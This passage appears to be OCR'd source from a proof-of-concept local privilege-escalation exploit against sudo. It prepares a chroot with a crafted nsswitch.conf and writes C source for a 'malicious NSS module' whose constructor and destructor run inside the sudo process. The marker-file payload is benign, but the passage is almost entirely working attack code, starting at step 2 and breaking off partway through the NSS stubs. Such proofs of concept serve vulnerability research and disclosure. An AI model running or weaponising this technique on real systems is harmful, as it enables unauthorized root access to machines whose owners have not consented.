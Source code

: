 # 2) Prepare chroot directory
CH=/tmp/chrootpwn
mkdir -p "$CH"/etc "$CH"/tmp
mkdir -p "$CH"/lib "$CH"/lib64 "$CH"/usr/lib "$CH"/lib/x86_64-linux-gnu
printf "passwd: myhack files\nshadow: myhack files\ngroup: myhack files\nhosts: files myhack\n" > "$CH"/etc/nsswitch.conf
touch "$CH"/etc/passwd "$CH"/etc/group "$CH"/etc/shadow

# 3) Write malicious NSS module source
cat > /tmp/libnss_myhack.c << 'EOF'
#include <stdio.h>
#include <stdlib.h>
#include <fcntl.h>
#include <unistd.h>
#include <string.h>
#include <sys/stat.h>
#include <pwd.h>
#include <grp.h>
#include <nss.h>

static void write_file(const char *path, const char *msg) {
    int fd = open(path, O_CREAT|O_WRONLY|O_TRUNC, 0644);
    if (fd >= 0) {
        write(fd, msg, strlen(msg));
        close(fd);
    }
}

__attribute__((constructor))
static void my_ctor(void) {
    // Executed while sudo is pivoted into $CH
    write_file("/tmp/nss_poc_constructor", "constructor ran\n");
}

__attribute__((destructor))
static void my_dtor(void) {
    // Executed after sudo unpivots, before process exit
    write_file("/tmp/nss_poc_destructor", "destructor ran as root?\n");
}

// Minimal NSS stubs that return UNAVAIL so libc falls back to files

enum nss_status _nss_myhack_getpwnam_r(const char *name, struct passwd *pwd,
    char *buffer, size_t buflen, int *errnop) {
    (void)name; (void)pwd; (void)buffer; (void)buflen; (void)errnop;
    return NSS_STATUS_UNAVAIL;
}

enum nss_status _nss_myhack_getpwuid_r(uid_t uid, struct passwd *pwd,
    char *buffer, size_t buflen, int *errnop) {
    (void)uid; (void)pwd; (void)buffer; (void)buflen; (void)errnop;
    return NSS_STATUS_UNAVAIL;
}
